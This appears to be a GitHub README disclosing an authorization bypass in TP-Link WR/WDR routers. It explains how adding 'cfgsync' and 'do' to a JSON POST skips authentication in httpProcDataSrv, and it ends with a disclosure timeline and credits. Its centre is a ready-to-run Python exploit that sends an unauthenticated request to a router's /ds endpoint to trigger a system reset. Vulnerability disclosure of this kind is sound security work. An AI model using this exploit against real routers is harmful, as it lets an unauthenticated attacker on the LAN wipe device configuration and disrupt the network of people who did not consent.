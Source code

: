 # TP-Link-poc

TP-Link router have a Command Execute in ``httpProcDataSrv`` function.

Any user can get remote code execution through LAN, this vulnerability currently     affects latest WR,WDR series. includeing WDR7660. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

### Vulnerability description

This vulnerability happen when ``httpProcDataSrv`` receive a data in json format from ``HTTP post request``.If the strings ``cfgsync`` and ``do``in users input,the post json would  bypass httpDoAuthorize.

![](1.png)

![image-20210728095522755](2.png)

### Poc
Refer to this video: [wdr7660.mp4](./wdr7660.mp4)
poc&exp

***It's for WDR7660***
```python3
import sys
import requests
if len(sys.argv) != 2:
    exit()
ip = sys.argv[1]
s = requests.Session()
data = "{\"system\":{\"reset\":null},\"method\":\"do\", \"cfgsync\":{\"get_config_info\":null}}"

response = s.post("http://%s/ds" %ip, data=data)
print("Status code:   %i" % response.status_code)
print("Response body: %s" % response.content)
```

### Timeline
2021.7.27 report to CVE and TP-Link
2021.8.4 TP-LINK's security department has been in touch with me.
### Acknowledgment
Credit to [@H4lo](https://github.com/H4lo) from Hatlab at dbappsecurity.
